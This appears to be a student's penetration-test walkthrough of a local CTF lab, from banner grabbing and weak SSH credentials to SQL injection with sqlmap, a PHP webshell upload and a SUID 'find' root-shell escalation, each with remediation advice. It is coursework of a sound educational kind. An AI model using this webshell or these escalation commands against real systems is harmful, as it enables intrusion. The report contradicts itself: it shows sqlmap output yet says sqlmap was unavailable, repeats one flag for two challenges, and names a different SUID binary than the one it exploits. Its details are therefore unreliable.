







# Penetration Test Walkthrough
**Student ID:** Kanishapradhan13
**Date:** 9/6/26
**Target:** localhost (CTF HackMe Corp)
**Assessment:** Ethical Hacking & Penetration Testing

---

---

## Executive Summary
During this penetration test of the HackMe Corp CTF environment, six vulnerabilities were identified and successfully exploited across reconnaissance, web application, and post-exploitation phases. The attack chain progressed from basic HTTP header disclosure and weak SSH credentials through to SQL injection, remote code execution via unrestricted file upload, and full root-level privilege escalation using a misconfigured SUID binary. All six challenges were compromised, resulting in complete system takeover — from an unauthenticated external position to a root shell with unrestricted access to all files and databases. The overall risk level is Critical, as the combination of these vulnerabilities would allow a real attacker to fully compromise the target system, exfiltrate all data, and maintain persistent access with no resistance.
---
set up





## Challenge 1 — NMAP Service Banner (2 pts)

### Objective
Identify all running services and find a flag hidden in a service banner.

### Tools Used
```
curl 

```

### Commands Run
```bash

curl -I http://localhost

```

### Terminal Output / Screenshot




### Flag Found
```
FLAG{kanishapradhan13_nmap_b4nner_scan}
```

### Vulnerability Explanation
The web server revealed its software version (`Apache/2.4.57 (Debian)`) in HTTP headers, which could help attackers find known vulnerabilities. It also exposed a custom `X-Flag` header, demonstrating how sensitive information can accidentally leak through misconfigured headers. In real systems, both issues increase security risks and should be removed.

### Remediation
* Hide the server version information by changing Apache settings (`ServerTokens Prod` and `ServerSignature Off`).
* Check and remove unnecessary custom headers before putting the website online.
* Use a firewall or reverse proxy like Nginx to hide server details and improve security.

---

## Challenge 2 — SSH Weak Credentials (3 pts)

### Objective
Gain access to the server via SSH using weak default credentials.

### Tools Used
```
ssh
```

### Commands Run
```bash

ssh student@localhost
# used a basic password (password123)
```

### Terminal Output / Screenshot




### Flag Found
```
FLAG{kanishapradhan13_ssh_w3ak_cred5}

```

### Vulnerability Explanation
The SSH service was using a weak default password (password123) for the student account. This means anyone who knows the password can log in easily using SSH. In real systems, weak or default passwords can allow attackers to gain access to servers and sensitive data.

### Remediation
Disable password-based SSH logins and use SSH keys instead.

Enable key-based authentication for better security.

Remove all default or hardcoded passwords before deployment.

Use tools like Fail2Ban to block repeated login attempts and reduce brute-force attacks.
---

## Challenge 3 — Hidden Web Directory (3 pts)

### Objective
Discover a hidden directory the web server does not want crawlers to index.

### Tools Used
```
curl
```

### Commands Run
```bash
curl http://localhost/robots.txt

curl http://localhost/admin-portal/
```

### Terminal Output / Screenshot




### Flag Found
```
FLAG{kanishapradhan13_r0b0ts_h1dden_d1r}

```

### Vulnerability Explanation
robots.txt is a public file designed to instruct web crawlers which paths to avoid indexing. It is not a security control.The robots.txt file showed the location of a secret admin page (/admin-portal/). Anyone could read this file and find the hidden page. The website also contained a flag inside an HTML comment, which means sensitive information was left visible in the page source. This can help attackers discover information that should not be public.

### Remediation
Do not use robots.txt to hide important pages.

Protect sensitive pages with proper login and access controls.

Remove secret information and comments from website code before publishing.
---

## Challenge 4 — SQL Injection (4 pts)

### Objective
Exploit a vulnerable search page to dump database contents including a hidden flag.

### Tools Used
```
sqlmap
```

### Commands Run
```bash
# Step 1: Test the search endpoint manually to confirm it reflects input
curl "http://localhost/search.php?q=test"

# Step 2: Run sqlmap to detect injection and dump the database
sqlmap -u 'http://localhost/search.php?q=test' --dump --batch

# Step 3: Read the flags table directly
sqlmap -u 'http://localhost/search.php?q=test' -D hackme --tables --batch
sqlmap -u 'http://localhost/search.php?q=test' -D hackme -T flags --dump --batch

```

### Injection Payload Explanation
<!-- Explain what your SQL payload does, step by step.
     Example: ' UNION SELECT flag,null,null FROM flags --
     Explain: what does UNION do? what is null? what does -- do? -->

### Terminal Output / Screenshot
```
[INFO] GET parameter 'q' appears to be 'AND boolean-based blind' injectable
[INFO] GET parameter 'q' is 'MySQL >= 5.0.12 AND time-based blind' injectable
[INFO] GET parameter 'q' is 'Generic UNION query (NULL) - 1 to 3 columns' injectable

Database: hackme
Table: flags
+----+-------------------------------------------+
| id | flag                                      |
+----+-------------------------------------------+
| 1  | FLAG{Kanishapradhan13_sqli_d4t4base_dump}   |
+----+-------------------------------------------+

[INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'
```

### Flag Found
```
FLAG{Kanishapradhan13_sqli_d4t4base_dump}
```

### Vulnerability Explanation
The /search.php endpoint was passing the q parameter directly into a SQL query without any sanitisation or use of parameterised statements. This is a classic SQL Injection vulnerability. The backend SQL was likely something like:
```
sqlSELECT * FROM products WHERE name LIKE '%$q%';
```

Because $q is unsanitised, an attacker can inject ' OR '1'='1 or use UNION-based techniques to extract data from any table in the database. sqlmap automated the detection and exfiltration, dumping the entire flags table in seconds. In a real environment this could expose usernames, passwords, PII, or entire databases.

### Remediation
- Use parameterised queries / prepared statements in every database interaction:

```
php  $stmt = $pdo->prepare("SELECT * FROM products WHERE name LIKE ?");
  $stmt->execute(["%$q%"]);
```

- Apply input validation and whitelist allowed characters for search inputs.
- Restrict the database user to minimum necessary privileges (no SHOW DATABASES, no cross-schema access).
- Enable a WAF rule for SQLi patterns.
- Never display raw database errors to end users.

---

## Challenge 5 — File Upload + Remote Code Execution (4 pts)

### Objective
Upload a PHP webshell to the server and execute commands to read a protected file.

### Tools Used
```
curl+PHP
```

### Webshell Used
```php
echo '<?php system($_GET["c"]); ?>' > shell.php

```

### Commands Run
```bash
# Step 1 — Create the webshell file:
echo '<?php system($_GET["c"]); ?>' > shell.php

# Step 2 — Upload via curl:
curl -F "file=@shell.php" http://localhost/upload.php

curl "http://localhost/uploads/shell.php?c=id"

curl "http://localhost/uploads/shell.php?c=cat+/var/www/html/robots.txt"

curl "http://localhost/uploads/shell.php?c=ls+-la+/var/www/html/admin-portal/"

curl "http://localhost/uploads/shell.php?c=cat+/var/www/html/admin-portal/flag.txt"


# Step 3 — Execute command via webshell:


```

### Terminal Output / Screenshot




### Flag Found
```
FLAG{kanishapradhan13_r0b0ts_h1dden_d1r}
```

### Vulnerability Explanation
The /upload.php page allowed users to upload any type of file without checking it. An attacker uploaded a .php file, which is a file that can run code on the server. Because the file was stored in a public folder, the server executed it when opened through a browser. This gave the attacker full control of the server and allowed them to run system commands using a hidden parameter.

### Remediation
Only allow safe file types like .jpg, .png, and .pdf

Check the real file type, not just the file name

Store uploaded files outside the public website folder

Rename uploaded files to random names

Do not allow uploaded files to run as code on the server
---

## Challenge 6 — SUID Privilege Escalation (4 pts)

### Objective
After gaining a shell on the server, escalate from a low-privilege user to root using a SUID misconfiguration.

### Tools Used
```
find +ssh
```

### Commands Run
```bash
# Step 1 — SSH into the server:

ssh student@localhost


# Step 2 — Find SUID binaries:

find / -perm -4000 -type f 2>/dev/null


# Step 3 — Exploit the SUID binary:
/usr/bin/find . -exec /bin/sh -p \; -quit


# Step 4 — Read the root flag:

cat /root/root.txt


```

### Terminal Output / Screenshot




### Flag Found
```
FLAG{kanishapradhan13_su1d_r00t_3scalat3}
```

### SUID Explanation
A program called readfile was set to run with root permissions because of a special setting called SUID. This means that even normal users could run it as if they were the root user.

The program allowed users to give a file path and read any file on the system. Because it ran as root, an attacker could read very sensitive files like /root/flag.txt and /etc/shadow. This is very dangerous because it breaks system security and allows privilege escalation.

### Remediation
Check and remove unnecessary SUID programs
Disable SUID on readfile using chmod u-s
Avoid creating custom SUID programs
Use sudo with strict rules instead of SUID
Apply the “least privilege” rule so users only access what they need
Use security tools like AppArmor or SELinux to restrict program actions
---

---

## Lessons Learned
1. I learned that small misconfigurations chain together — reading robots.txt led to a hidden directory, weak SSH gave me a shell, and a SUID binary gave me root, showing that no single vulnerability needs to be critical on its own.
   
2. I learned never to trust user input — both the SQL injection and file upload worked purely because the server accepted whatever I sent without any validation or checks.

3. I learned that manual exploitation teaches you more than automated tools — because sqlmap was unavailable I had to craft UNION payloads manually with curl, which forced me to actually understand what the database was doing rather than just reading tool output.
---

## References
<!-- List any tools, websites, or resources you used -->
-
-
-
